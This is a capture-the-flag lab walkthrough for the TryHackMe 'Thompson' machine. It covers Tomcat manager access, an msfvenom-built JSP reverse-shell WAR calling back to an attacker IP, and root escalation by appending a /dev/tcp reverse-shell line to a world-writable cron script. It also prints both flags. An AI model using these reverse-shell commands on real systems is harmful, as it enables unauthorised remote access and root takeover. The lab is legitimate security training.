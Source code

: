 # Thompson

---

---

# Enumeration

![Untitled](Thompson_images/Untitled.png)

![Untitled](Thompson_images/Untitled%201.png)

# Exploit

Navigate to `/manager/html` → Pop up a window requires `username` & `password` → Click `Cancel` → It will display this page

![Untitled](Thompson_images/Untitled%202.png)

Reload the page and use the credential above to sign in

![Untitled](Thompson_images/Untitled%203.png)

We are in the **************manager************** page where we can manage the page with several services (add,create,deploy,start,stop,… paths,services,…)

![Untitled](Thompson_images/Untitled%204.png)

Scroll down and pay focus on the ************Deploy************ tab → It contains a form where we can upload `WAR` file and ************deploy************ it

![Untitled](Thompson_images/Untitled%205.png)

![Untitled](Thompson_images/Untitled%206.png)

# Gain Access

Use the `msfvenom` with cheat sheet from source [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create a reverse shell

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Thompson]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.8.97.213" LPORT=4444 -f war > shell.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes
```

![Untitled](Thompson_images/Untitled%207.png)

Then upload and deploy it on the **manager** page

![Untitled](Thompson_images/Untitled%208.png)

The file was uploaded and deployed succeed! 

![Untitled](Thompson_images/Untitled%209.png)

On local machine, start `Netcat Listener` with defined port in the shell and navigate to the path where the uploaded shell was deployed

![Untitled](Thompson_images/Untitled%2010.png)

![Untitled](Thompson_images/Untitled%2011.png)

Now we are connected!

![Untitled](Thompson_images/Untitled%2012.png)

Navigate to `/home/jack/` to get the ********user******** flag from `user.txt`

```tsx
$ cd home/jack
$ ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 19 00:09 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
$ cat user.txt
39400c90bc683a41a8935e4719f181bf
```

# Privilege Escalation → Root

Look at `crontab` file → There is a command which is executed automatically by `root` user 

```tsx
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
```

Find out what does the `id.sh` do

```bash
#!/bin/bash
id > test.txt
```

As long as the `id.sh` file is writable → We can modify it to execute a reverse shell

```
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

Use the following command and add it into the file

```tsx
$ echo "bash -i >& /dev/tcp/10.8.97.213/4242 0>&1" >> id.sh
```

Let’s check the file one more time

```bash
#!/bin/bash                                                                                                         
id > test.txt
bash -i >& /dev/tcp/10.8.97.213/4242 0>&1
```

The reverse-shell command was written correctly → Start the `Netcat Listener` on the local machine

![Untitled](Thompson_images/Untitled%2013.png)

Wait for a few second and we are ********root******** now → Navigate to `/root` directory and get the **********root********** flag

```tsx
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/jack# cd /root
root@ubuntu:~# ls -la
total 24
drwx------  3 root root 4096 Aug 14  2019 .                                                 
drwxr-xr-x 22 root root 4096 Aug 14  2019 ..                                                
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc                                           
drwxr-xr-x  2 root root 4096 Aug 14  2019 .nano                                             
-rw-r--r--  1 root root  148 Aug 17  2015 .profile                                          
-rw-r--r--  1 root root   33 Aug 14  2019 root.txt                                          
root@ubuntu:~# cat root.txt                                                                                                                                       
d89d5391984c0450a95497153ae7ca3a                                                            
```